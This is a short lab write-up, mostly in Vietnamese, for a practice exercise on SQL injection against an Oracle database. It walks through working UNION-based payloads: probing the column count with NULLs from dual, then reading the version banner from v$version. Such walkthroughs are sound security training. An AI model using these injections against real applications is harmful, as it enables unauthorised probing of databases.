



# Lab: SQL injection attack, querying the database type and version on Oracle

**PRACTITIONER**

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Write-up

Về lab này yêu cầu về sử dụng UNION và trích xuất được version của DB Oracle. Để lấy được thông tin về db của oracle ta có thể sử dụng payload sau: 
SELECT banner FROM v$version
SELECT version FROM v$instance

vẫn như trên 

thì mục category ở đây đang xảy ra sqli, em sử dụng payload ' UNION SELECT version FROM v$instance -- 
nhưng sau khi thử thì trả về Internal Server Error

thì lí do là do UNION bắt buộc phải đúng với số lượng cột, vậy em sẽ quay lại một bước xác định số lượng cột bằng ' UNION SELECT NULL FROM dual--
và thử số lượng NULL đến khi nào không còn lỗi 

vậy số lượng cột tìm ra là 2 cột
-> payload hoàn chỉnh: ' UNION SELECT banner, NULL FROM v$version--